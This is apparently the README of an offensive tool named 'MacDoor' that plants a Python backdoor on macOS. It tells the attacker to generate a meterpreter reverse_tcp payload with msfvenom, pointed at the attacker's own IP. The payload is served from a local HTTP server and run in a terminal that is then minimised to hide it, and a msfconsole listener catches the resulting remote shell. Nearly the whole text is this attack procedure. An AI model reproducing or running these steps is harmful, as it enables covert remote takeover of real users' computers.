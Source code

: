# MacDoor - Python Backdoor Execution

* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Execution

# Description

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# Steps

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# Note

* You need to modify the script with your attacker IP and the port or your local server.

